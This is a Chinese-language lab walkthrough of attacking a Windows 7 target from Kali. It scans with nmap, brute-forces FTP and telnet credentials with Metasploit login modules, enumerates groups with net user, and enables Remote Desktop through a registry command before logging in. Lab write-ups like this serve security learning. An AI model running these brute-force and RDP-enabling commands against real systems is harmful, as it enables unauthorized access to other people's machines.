# Metasploit进行密码破解复现

**攻击机**

> kali

**靶机**

> windows 7 

------------

进行信息收集：

1. 靶机ip获取

   * 首先先使用nmap工具对靶机的网段进行扫描查看靶机的ip地址

   * ```shell
     nmap -A -T4 -sV -vv 172.16.1.0/24
     ```

   * 

   * 得到靶机ip：172.16.1.200和开启的服务

   * 

     ```
     21/tcp open ftp
     23/tcp open telnet
     80/tcp open http
     3306/tcp open mysql
     3389/tcp open 远程桌面
     8080/tcp open http
     8081/tcp open http
     ```

2.  对服务的漏洞测试

   * 

   * 21/tcp ftp

     * > ftp-anon: Anonymous FTP login allowed
       >
       > ftp开启了匿名登录

     * 尝试使用匿名登录并测试匿名用户的权限

     * 

     * > 尝试创建文件的时候返回报错550，这个的意思是没有这个权限

     * 因为匿名用户权限太低，可以使用metasploit进行ftp的用户名和密码爆破来获取更高权限的用户登录

     * 搜索metasploit的ftp登录相关模块

     * ```shell
       search ftp_login
       ```

     * 

     * 选择模块 

     * ```shell
       use auxiliary/scanner/ftp/ftp_login
       ```

     * 

     * 查看需要的参数

     * ```shell
       show options
       ```

     * 

     * ```shell
       PASS_FILE: 指定密码的字典 -> set PASS_FILE /vuln_password.txt
       USER_FILE: 指定用户名的字典 -> set USER_FILE /vuln_usernae.txt
       RHOSTS: 目标靶机的ip地址 -> set RHOSTS 172.16.1.200
       exploit/run: 执行模块
       ```

     * 

     * 

     * 得到ftp的用户名和密码test:123456

     * 去登录

     * ```shell
       ftp 172.16.1.200
       ```

     * 

     * 

     * ```shll
       创建测试文件夹
       mkdir test
       ```

     * 发现可以创建，然后测试是否可以进入其他的目录，使用cd .. 进入了一个疑似C盘的目录

     * 

     * 说明了靶机的ftp服务没有做ftp的用户目录锁死

     * > 这样的危害很大，容易泄露其他用户的信息

     * 可以尝试使用telnet进行登录

   * 23/tcp telnet or 3389/tcp 远程桌面

     * 

     * telnet登录失败说明ftp的这个test用户没有在telnet的用户组

     * 这样的话也可以尝试使用metaploit进行对telnet服务的用户和密码爆破

     * 进入metaploit

     * 搜索与telnet登录相关的模块

     * ```shell
       search telnet_login
       ```

     * 

     * 选择模块和查看模块参数

     * ```shell
       use auxiliary/scanner/telnet/telnet_login
       show options
       ```

     * 设置参数

     * ```shell
       PASS_FILE: 指定密码的字典 -> set PASS_FILE /vuln_password.txt
       USER_FILE: 指定用户名的字典 -> set USER_FILE /vuln_usernae.txt
       RHOSTS: 目标靶机的ip地址 -> set RHOSTS 172.16.1.200
       exploit/run: 执行模块
       ```

     * 得到用户名和密码

     * 

     * 

     * 使用admin:999999登录telnet

     * 

     * 登录成功，但是乱码

     * 可以使用

     * ```bat
       chcp 65001
       ```

     * 来暂时使用中文编码

     * 

     * ```bat
       使用net user admin查看用户组
       ```

     * 

     * admin 的用户只有登录电脑的权限用户组没有管理员的用户组

     * 可以查看另一个用户的用户组

     * 

     * root这个用户的用户组是管理员的用户组所以可以通过这个去登录，靶机还开启了3389的服务可以使用root去使用远程桌面去登录(如果没有开启就使用命令开启)

     * reg add "hklm/system/currentcontrolset/control/terminal server" /v fdenytsconnections /t reg_dword /d 00000000 /f

     * rdesktop 172.16.1.200

     * 

